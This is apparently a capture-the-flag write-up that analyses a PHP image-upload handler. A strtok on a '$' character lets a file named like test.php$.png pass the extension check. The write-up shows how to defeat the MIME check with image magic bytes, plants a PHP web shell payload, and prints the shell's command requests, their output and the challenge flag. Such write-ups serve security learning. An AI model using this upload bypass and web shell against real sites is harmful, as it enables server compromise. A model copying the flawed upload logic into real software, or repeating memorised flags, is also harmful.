 ### PHP Sucks

Cleaning up the given php code to look better: -
```php
<?php
$allowedExtensions=['jpg','jpeg','png'];
$errorMsg='';
if($_SERVER['REQUEST_METHOD']==='POST'&&isset($_FILES['file'])&&isset($_POST['name'])){
	$userName=$_POST['name'];
	$uploadDir='uploaded/'.generateHashedDirectory($userName).'/';
if(!is_dir($uploadDir)){
	mkdir($uploadDir,0750,true);
}
$uploadedFile=$_FILES['file'];
$fileName=$uploadedFile['name'];
$fileTmpName=$uploadedFile['tmp_name'];
$fileError=$uploadedFile['error'];
$fileSize=$uploadedFile['size'];
$fileExt=strtolower(pathinfo($fileName,PATHINFO_EXTENSION));
if(in_array($fileExt,$allowedExtensions)&&$fileSize<200000){
	$fileName=urldecode($fileName);
	$fileInfo=finfo_open(FILEINFO_MIME_TYPE);
	$fileMimeType=finfo_file($fileInfo,$fileTmpName);
	finfo_close($fileInfo);
	$allowedMimeTypes=['image/jpeg','image/jpg','image/png'];
	$fileName=strtok($fileName,chr(7841151584512418084));
	if(in_array($fileMimeType,$allowedMimeTypes)){
		if($fileError===UPLOAD_ERR_OK){
			if(move_uploaded_file($fileTmpName,$uploadDir.$fileName)){
				chmod($uploadDir.$fileName,0440);
				echo"File uploaded successfully. <a href='$uploadDir$fileName' target='_blank'>Open File</a>";
			}else{
			$errorMsg="Error moving the uploaded file.";
			}
		}
		else{
			$errorMsg="File upload failed with error code: $fileError";
			}
	}else{
		$errorMsg="Don't try to fool me, this is not a png file";
}
}else{
	$errorMsg="File size should be less than 200KB, and only png, jpeg, and jpg are allowed";
}}
function generateHashedDirectory($userName){$randomSalt=bin2hex(random_bytes(16));
	$hashedDirectory=hash('sha256',$userName.$randomSalt);
	return $hashedDirectory;
}?>
```

`$fileName=strtok($fileName,chr(7841151584512418084));` -> This stuck out, since it is acting as a null byte i.e. read everything till this `chr(7841151584512418084)` which is a `$` when we actually check it in a php interpreter.

Below is the order of checks: -

1. Extension check using pathinfo().
2. MIME type check using magic bytes. So we should upload a file that has magic bytes that can get past this check (jpg,png).
3. If all checks pass, move the uploaded file into a new directory.

Our end goal is to get a file ending with .php in this directory, but uploading it directly will fail because of the checks.

This is where `$` comes in play, if `test.php$.png` is the file name, it will pass the first check.
```
php > echo pathinfo("test.php$.jpg",PATHINFO_EXTENSION);
jpg
```

The strtok before the 2nd check will get the filename upto the `$`.
```
php > echo strtok("test.php$.jpg",chr(7841151584512418084));
test.php
```

Since the file being uploaded is an actual png, we can either edit any bytes except the magic bytes to include our payload, something like `<?php system($_GET["0"]) ?>`.

Or we can also add our payload as exifdata, or just keep the magic bytes and our payload, anything will work.

Using the above filename and payload, we get a shell.
```
GET /uploaded/xxx/test.php?0=ls+-la+../../
total 3496
drwxr-x--- 1 root     ctf-player    4096 Dec 16 10:49 .
drwxrwxrwx 1 www-data www-data      4096 Dec 17 21:29 ..
-rwxr-x--- 1 root     ctf-player      69 Dec 16 10:36 s0_7h15_15_7h3_fl496_y0u_ar3_54rch1n9_f0r.txt
-rwxr-x--- 1 root     ctf-player    3939 Dec 16 10:36 upload.php
drwxrwxrwx 1 root     ctf-player 3551232 Dec 19 04:26 uploaded

GET /uploaded/xxx/test.php?0=cat+../../s0_7h15_15_7h3_fl496_y0u_ar3_54rch1n9_f0r.txt
flag{n0t_3v3ry_t1m3_y0u_w1ll_s33_nu11byt3_vuln3r4b1l1ty_0sdfdgh554fd}
```

### FLag

`flag{n0t_3v3ry_t1m3_y0u_w1ll_s33_nu11byt3_vuln3r4b1l1ty_0sdfdgh554fd}`
